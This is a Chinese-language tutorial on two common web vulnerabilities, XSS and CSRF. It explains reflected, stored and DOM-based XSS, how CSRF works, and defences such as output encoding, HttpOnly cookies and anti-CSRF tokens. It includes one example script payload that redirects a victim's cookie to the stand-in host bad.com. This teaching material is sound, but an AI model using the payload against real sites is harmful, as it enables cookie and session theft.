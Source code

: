 ## 典型的安全漏洞

Web 典型的安全漏洞种类很多，如 `XSS`, `CSRF`, `SQL注入`,`Cross IFrame Trick`, `clickJacking`,  `文件上传` 等等。下面列举两种客户端常见的安全漏洞。

### XSS

XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。

举一个简单的例子

在 `a.com` 的搜索输入框中输入如下内容，并提交请求
```
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
如果前端没有进行过滤，浏览器地址可能变为：
```
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
```
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。


XSS 攻击类型一般分为三种：

- 反射型 XSS

反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。

- 储存型 XSS

存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。

- DOM Based XSS

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。

#### 防范 XSS

对于 XSS 攻击，我们可以做如下防范：

1. 输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。

2. 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。

3. HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

4. WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。



### CSRF

CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。

举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。


![CSRF](./images/csrf.png)

#### 防范 CSRF

对于 CSRF 攻击，我们可以做如下防范：

1. 验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。

2. Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。

3. Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。
